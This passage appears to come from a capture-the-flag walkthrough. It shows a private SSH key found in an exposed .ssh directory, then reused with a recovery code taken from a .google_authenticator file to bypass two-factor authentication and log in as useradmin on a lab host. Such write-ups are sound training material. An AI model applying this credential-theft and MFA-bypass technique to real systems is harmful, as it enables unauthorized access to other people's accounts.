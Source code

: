 Checking the `.ssh` directory, we find a private key. 

```console
➜  .ssh $ ls -la
total 10
drwxrwxrwx 1 root root 4096 Jun 21 10:53 .
drwxrwxrwx 1 root root 4096 Jun 21 11:48 ..
-rwxrwxrwx 1 root root   98 Jun 21 10:56 authorized_keys
-rwxrwxrwx 1 root root  411 Jun 21 10:53 id_ed25519
-rwxrwxrwx 1 root root   98 Jun 21 10:53 id_ed25519.pub
```

When trying to ssh using the key, we get prompted for a verification code. Grab one of the recovery codes from the `.google_authenticator` file and use that here. 

```console
➜  .ssh $ ssh -i id_ed25519 useradmin@$ip
The authenticity of host '10.10.93.168 (10.10.93.168)' can't be established.
ED25519 key fingerprint is SHA256:mTJofQVp4T/1uO1CFsfPt8SADZfjbzIIynR0Zeqi0qo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.93.168' (ED25519) to the list of known hosts.
(useradmin@10.10.93.168) Verification code:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jun 28 10:12:35 PM UTC 2024

  System load:  0.0               Processes:             111
  Usage of /:   74.4% of 6.06GB   Users logged in:       0
  Memory usage: 39%               IPv4 address for ens5: 10.10.93.168
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Jun 21 16:48:53 2024 from 192.168.94.139
useradmin@manage:~$
```
